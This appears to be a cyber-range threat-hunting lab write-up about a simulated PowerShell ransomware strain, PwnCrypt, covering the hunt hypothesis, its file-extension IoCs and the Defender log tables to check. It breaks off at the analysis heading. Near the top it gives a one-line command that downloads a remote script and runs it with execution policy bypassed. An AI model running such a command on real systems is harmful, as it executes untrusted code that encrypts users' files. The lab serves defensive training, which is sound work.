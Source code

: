# Threat Hunt Report: Zero-Day Ransomware (PwnCrypt) Outbreak

## Investigation Scenario: Zero-Day Ransomware (PwnCrypt) Outbreak

Run this PowerShell command on your VM after onboarding it to MDE:

```powershell
Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/pwncrypt.ps1' -OutFile 'C:\programdata\pwncrypt.ps1';cmd /c powershell.exe -ExecutionPolicy Bypass -File C:\programdata\pwncrypt.ps1
```

-----

## 1\. Preparation

**Goal:** Set up the hunt by defining what you're looking for.

A new ransomware strain named PwnCrypt has been reported in the news, leveraging a PowerShell-based payload to encrypt files on infected systems. The payload, using AES-256 encryption, targets specific directories such as the `C:\Users\Public\Desktop`, encrypting files and prepending a `.pwncrypt` extension to the original extension. For example, `hello.txt` becomes `hello.pwncrypt.txt` after being targeted with the ransomware. The CISO is concerned with the new ransomware strain being spread to the corporate network and wishes to investigate.

**Activity:** Develop a hypothesis based on threat intelligence and security gaps (e.g., “Could there be lateral movement in the network?”).

**Hypothesis:** The security program at the organization is still immature and even lacks user training. It’s possible the newly discovered ransomware has made its way onto the corporate network. The hunt can be initiated based on the known IoCs (`*.pwncrypt.*` files).

-----

## 2\. Data Collection

**Goal:** Gather relevant data from logs, network traffic, and endpoints.

Consider inspecting the file system as well as process activity for anything that matches the PwnCrypt IoCs.

**Activity:** Ensure data is available from all key sources for analysis.

Ensure the relevant tables contain recent logs:

  * `DeviceProcessEvents`
  * `DeviceFileEvents`

-----

## 3\. Data Analysis
